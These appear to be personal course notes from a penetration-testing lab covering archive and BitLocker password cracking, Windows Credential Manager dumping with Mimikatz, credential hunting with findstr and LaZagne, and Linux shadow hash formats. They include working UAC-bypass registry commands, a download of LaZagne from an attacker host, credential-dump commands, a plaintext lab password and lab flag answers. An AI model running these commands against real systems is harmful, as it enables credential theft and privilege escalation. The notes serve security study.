








# Cracking protected Archives
ZIp files 
Many file extensions: tar,gz,rar,zip,bitlocker,deb...
tar files commonly encrypted using openssl or gpg

**Cracking ZIP file**

Zip format is heavily used in Windows env.
zip2john ZIP.zip > zip hash
cat zip.hash
One we have a hash, we use JtR to crack with desired passsword list
john --wordlist=rockyou.txt zip.hash
john zip.hash -show

**Cracking openSSL encrypte GZIP file**s
 file command to determine the actual format of file
 Crack OpenSSL encrypted files, may encounter various challenges, including numerous false positives or complete failure to identify correct password.

 Use the openssl tool within a for loop that attempts to extract the contents directly
 
 for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done

**Cracking Bitlocker-encrypted drives**
Bitlocker is a full-disk encryption feature developed by Microsoft for Window operating system. Since Windows Vista, it uses the AES encryption algorithm with either 128 bit or 256 bit lengths. If the password or PIN used for Bitlocker is forgotten, decryption can still be performed using a recovery key - a 48 digit string generated during the set up progress.

In enterpirse environments, virtual drives are sometimes used to store personal information, documents, or notes on company-issued devices to prevent unauthorized access. To crack a Bitlocker encrypted drive, we can use a script called bitlocker2john to four different hashes: the first two correspond to the Bitlocker password, while the latter two represent the recovery key. Because the recovery key is very long and randomly gen, it is generally not practical to guess - unless parital knowledge is availabale. We focus on cracking the password using the first hash($bitlocker$0$...)

bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
cat backup.hash

Once a hash is generated, either John or hashcat to crack it.
hashcat -a 0 -m 22100 hash
After successfully cracking the password, we can access the encrypted drive

**Mounting Bitlokcer-encrypted drives in Windows**

The easiest method for mounting a BitLocker-encrypted virtual drive on Windows is to double-click the .vhd file. Since it is encrypted, Windows will initially show an error. After mounting, simply double click the Bitlock volume to be prompted for the password.



**Mouting Bitlocker-encrypted drives in Linux(or macOS)**
It is also possible to mount BitLocker-encrypted drives in Linux. To do this, we can use tool called dislocker. 

sudo apt-get install dislocker
sudo mkdir -p /media/bitlocker
sudo mkdir -p /media/bitlockermount

//use losetup to configure the VHD as loop device
sudo losetup -f -P Backup.vhd
sudo dislocker /dev/loop02p2 -u1234qwer -- /media/bitlocker
sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount

If every thing was done correctly, now browse the files

cd /media/bitlockermount/
ls -la

Unmount it using `umount` command

# Practice(Cracking Protected Archives)
1.
bitlocker2john -i Private.vhd > all.hashes
grep "bitlocker\$0" all.hashes > vhd.hash
cat vhd.hash

john --wordlist=/path/to/rockyou.txt vhd.hash
hashcat -a 0 -m 22100 vhd.hash /path/to/rockyou.txt

d/a: francisco

2.Mount the BitLocker-encrypted VHD and enter the contents of flag.txt as your answer.
sudo losetup -f -P Private.vhd
losetup -a
`/dev/loop0: []: (/home/htb-ac-1453865/Private.vhd)`
sudo mkdir -p /mnt/bitlocker /mnt/bitlockermount
sudo dislocker /dev/loop0p1 -ufrancisco -- /mnt/bitlocker
sudo mount -o loop /mnt/bitlocker/dislocker-file /mnt/bitlockermount
d/a: `43d95aeed3114a53ac66f01265f9b7af`

# Attacking Windows Credential Manager
**Windows Vault and Credential Manager**
Credential Manager, essentially, it allow users and apps to securely store credentials relevant to other systems and websites. Credentials are stored in special encyrpted folders on the computer under the user and system profies(https://attack.mitre.org/techniques/T1555/004/)

-%UserProfile%\AppData\Local\Microsoft\Vault\
-%UserProfile%\AppData\Local\Microsoft\Credentials\
-%UserProfile%\AppData\Roaming\Microsoft\Vault\
-%ProgramData%\Microsoft\Vault\
-%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\

Each vault folder contain a Policy.vpol file with AES keys that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of Credential Guard to further protect the DPAPI master keys by storing them in secured memory enclaves

Protected stores as Credential Lockers(Windows Vaults). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders
Web credentials and Windows Credentials

It is possible to export Windows Vaults to .crd files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be importe on other Windows systems.
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr


Enumerating credentials with cmdkey
```
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd


**Extracting credentials with Mimikatz**
dump credentials from memory using sekurlsa module or manually decrypt credentials using the dpapi module
```
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

**Practice**
cmdkey /list

runas /savecred /user:SRV01\mcharles cmd
Bypass UAC via fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe

cd C:\Users\Administrator\Desktop

share repo mimikatz from localhost to target
xfreerdp /u:sadams /p:"totally2brow2harmon@" /v:10.129.234.171 \
/drive:share,/home/htb-ac-1453865/mimikatz

copy mimikatz into sadams user
copy C:\Users\sadams\mimikatz.exe C:\Users\Administrator\

type mimikatz.exe
`privilege::debug
vault::cred`


# Credential Hunting in Windows
Credential hunting is the process of perfoming detailed searches across the file system and through various applications to discover credentials.


**Search-centric** - focus search sensitive credential (username,pass,token..)

A user may have documented their passwords somewhare on the system. There may even be default credentials that could be found in various files. It would be wise to base our search for credentials on what we know about how the target system is being used. In this case, we know we have access to an IT admin's workstation.

What might an IT admin be doing on a day-to-day basic and which of those tasks may require credentials? 

Question and consider to refine our search to reduce the need for the random guessing as much as possible.

Key term to search: passwords, passphrase, keys, username, creds, passkeys, dbcredential, pwd, Login...

**Search Tool**
Windows Search: password,login,credentials,pwds

  - LaZagne.exe all -vv
findstr 
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
findstr /SIM /C:"GitLab" *.txt -> passgitlab
 Invoke-WebRequest -Uri "http://10.10.14.162:8000/LaZagne.exe" -OutFile "C:\Users\bob\Desktop\LaZagne.exe"
LaZagne.exe
open visualcode -> find ...

# Linux authentication process

Linux support various authentication mechanisms. One the most commonly used is PAM (Pluggable Authentication Modules). The modules responsible for this functionality,such as pam_unix, pam_unix2.so.

The pam_unix.so module uses standardlized API call from system libraries to update account information. The primary files it reads from and writes to are /etc/passwd and /etc/shadow. PAM also includes many other service modules, such as those for LDAP, mount operations, and Kerberos authentication.

**Passwd File**
The /etc/passwd file contains information on every user on the system and is readable by all users and services. Each entry in the file corresponds to a single user and consists of sevent fields, which store user-related data in a structured format. These fields are separated by colons(:)

Modern systems, password hashes are stored in the /etc/shadow file.
Find the value x in this field, indicating the passwords are stored in a hashed form within /etc/shadow. 

**Shadow file**
nine fileds

htb-student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::

$<id>$<salt>$<hashed>

ID	Cryptographic Hash Algorithm
1	MD5
2a	Blowfish
5	SHA-256
6	SHA-512
sha1	SHA1crypt
y	Yescrypt
gy	Gost-yescrypt
7	Scrypt

yescript 

**Cracking Linux Credentials**
unshadow tool
 - combining passwd and shadow files into a single file suitable for cracking